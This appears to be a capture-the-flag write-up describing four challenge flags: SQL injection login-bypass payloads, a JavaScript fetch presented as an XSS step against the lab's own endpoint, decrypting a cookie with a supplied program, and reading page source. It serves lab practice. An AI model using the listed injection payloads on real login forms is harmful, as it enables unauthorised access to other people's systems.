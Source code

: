 ## SQL Injection

The first login page is vulnerable to SQL injection. The following payloads can be used to bypass the login:

```sql
admin' --
admin' #
admin'/*
' OR 1=1 --
' OR 1=1 #
' OR 1=1/*
') OR '1'='1--
') OR ('1'='1--
```

Use this payload in either the username or password field to bypass the login, obtaining the first flag.

## Cross-Site Scripting

Using the downloaded script from the website, we can inject a script into the console of the browser, leading to a successful XSS attack. The following payload can be used to inject the script:

```javascript
fetch("/execute_xss", {
  headers: {
    "X-Execute-XSS": "true",
  },
}).then((response) => {
  if (response.ok) {
    window.location.href = "/execute_xss_redirect";
  }
});
```

This would cause a redirect to the `/execute_xss_redirect` page, where the second flag would be displayed.

## Cookie decryption

After the XSS attack, an encrypted cookie is stored in the browser, which can be decrypted using the provided custom program.

To execute the program, it need to be executable. To do this, run the following command:

```bash
chmod +x dcrpt_xxx_yyy
```

Then, run the program:

```bash
./dcrpt_xxx_yyy
```

The decrypted cookie will be displayed, containing the third flag.

## Web

The website contains the final flag in the source code of the page. By inspecting the source HTML code, the fourth flag can be found.
